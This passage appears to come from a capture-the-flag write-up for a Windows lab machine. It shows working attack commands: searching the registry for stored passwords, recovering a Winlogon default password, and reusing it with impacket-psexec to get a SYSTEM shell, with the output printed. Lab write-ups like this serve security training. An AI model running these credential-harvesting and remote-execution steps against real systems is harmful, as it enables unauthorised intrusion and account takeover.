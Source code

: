We didnt find much of interest. Lets search for credentials.
### Finding Password in the Registry
Here we can find multiple methods and commands to search for passwords: https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

We will use the "Search for password in registry" one since it's fast and could be an easy win:

```shell
reg query HKLM /f password /t REG_SZ /s
```

Scrolling down in the results we found out we got a password as a result:

```shell
<SNIP>
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    DefaultPassword    REG_SZ    Welcome1!
<SNIP>
```

Do a reg query to check it:

```shell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

We can see in the results that this might be the password for the user alfred.

But how can we use it?

Maybe alfred is an Administrator who is just logged in as a regular user and this is actually the Administrator password?

### Getting access as Administrator using PsExec and the password of alfred
Let's use impacket-psexec with the credentials of alfred but using Administrator as user and see if we are lucky:

```shell
impacket-psexec Administrator:'Welcome1!'@10.129.140.224
```

```shell
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.140.224.....
[*] Found writable share ADMIN$
[*] Uploading file dHFwPmSi.exe
[*] Opening SVCManager on 10.129.140.224.....
[*] Creating service FDES on 10.129.140.224.....
[*] Starting service FDES.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>
```

Nice! We got access as NT AUTHORITY\SYSTEM.

### Root Flag
Now we can get the root.txt flag:

```shell
type C:\Users\Administrator\root.txt
```

